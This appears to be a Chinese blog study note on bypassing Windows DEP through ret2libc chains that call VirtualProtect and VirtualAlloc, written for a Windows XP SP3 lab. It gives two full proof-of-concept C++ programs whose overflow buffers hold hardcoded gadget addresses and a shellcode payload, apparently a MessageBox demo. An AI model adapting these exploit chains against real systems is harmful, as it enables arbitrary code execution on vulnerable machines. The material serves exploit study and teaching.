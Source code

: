 ```yaml
---
title: 漏洞学习笔记-015-利用VirtualProtect和VirtualAlloc攻击DEP
description: Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP
date: 2020-11-19 17:43:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-015-利用virtualrrotect和virtualalloc攻击dep/)

## 利用VirtualProtect攻击DEP

### 原理

> 利用`VirtualProtect`函数将栈页内存属性改为可执行

### 前置内容

- VirtualProtect参数

```cpp
BOOL VirtualProtect(
    LPVOID lpAddress,
    DWORD dwSize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
);

// 所以可以这样写
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

- 这里势必存在0，因此攻击函数换为memcpy

### 步骤

- 修复EBP，这样调用函数的时候不会内存读取违规而异常
- 填入VirtualProtect的地址，将会返回于此
- 填入空的指令
- 填入返回地址
- 填入函数的参数
- 填入shellcode本身

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include<windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret `fix ebp`
"\xD4\x1A\x80\x7C" // VirtualProtect Address
"\x90\x90\x90\x90"
"\x8C\xFE\x12\x00" // ret Address
"\xB0\xFD\x12\x00" // Param Address: 0x0012FDB0
"\xFF\x00\x00\x00" // Param Size: 0x100
"\x40\x00\x00\x00" // Param NewProtect: 0x40
"\x00\x00\x3F\x00" // Param pOldProtect: 0x00910000
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char str[176];
    memcpy(str, shellcode, 420);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

## 利用VirtualAlloc攻击DEP

### 前置内容

- VirtualAlloc参数

```cpp
LPVOID WINAPI VirtualAlloc(
    __in_opt LPVOID lpAddress,
    __in SIZE_T dwSize,
    __in DWORD flAllocationType,
    __in DWORD flProtect
)
```

- 参数说明
  - `lpAddress`，申请内存区域的地址，如果这个参数是`NULL`，系统将会决定分配内存区域的位置，并且按`64KB`向上取整
  - `dwSize`，申请内存区域的大小
  - `flAllocationType`，申请内存的类型
  - `flProtect`，申请内存的访问控制类型，如读、写、执行等权限。内存申请成功时函数返回申请内存的起始地址，申请失败时返回`NULL`

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret 4
"\xE1\x9A\x80\x7C" // Address of VirtualAlloc
"\x90\x90\x90\x90"
"\x70\x6F\xC1\x77" // VirtualAlloc ret address
"\x00\x00\x03\x00" // Param: lpAddress
"\xFF\x00\x00\x00" // Param: dwSize
"\x00\x10\x00\x00" // Param: flAllocationType
"\x40\x00\x00\x00" // Param: flProtect
"\x00\x00\x03\x00" // memcpy ret address
"\x00\x00\x03\x00" // Param: destin
"\x94\xFE\x13\x00" // Param: source
"\xFF\x00\x00\x00" // Param: n
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

### 技术细节

- 首先使用VirtualAlloc申请一段空间用于执行shellcode
- 随后使用memcpy将shellcode复制过去
- 最后在memcpy返回时直接返回到shellcode payload的起始地址

